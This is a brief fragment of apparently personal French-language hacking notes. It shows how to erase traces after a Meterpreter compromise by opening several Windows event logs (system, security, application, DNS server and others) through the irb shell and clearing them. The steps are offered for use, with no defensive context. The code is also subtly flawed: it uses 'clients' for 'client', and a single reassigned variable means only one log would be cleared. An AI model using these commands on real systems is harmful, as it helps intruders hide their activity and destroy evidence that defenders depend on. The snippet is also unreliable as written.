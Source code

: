 (beaucoup d'autres options)

- effacer trace
1. meterpreter> irb

2. puis toute ces commandes:
log = clients.sys.eventlog.open('system')
log = clients.sys.eventlog.open('security')
log = clients.sys.eventlog.open('application')
log = clients.sys.eventlog.open('directory service')
log = clients.sys.eventlog.open('dns server')
log = clients.sys.eventlog.open('file replication service')
3. log.clear()

